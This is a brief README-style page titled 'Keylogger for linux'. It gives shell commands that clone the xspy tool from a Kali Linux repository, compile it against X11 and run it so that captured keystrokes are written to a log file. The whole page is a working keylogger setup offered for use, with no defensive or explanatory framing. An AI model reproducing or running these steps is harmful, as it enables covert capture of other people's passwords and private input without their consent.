 # Keylogger for linux

```bash
sudo apt install libx11-dev
git clone https://gitlab.com/kalilinux/packages/xspy
gcc Xspy.c -o xspy -lX11
xspy >> teste.log
```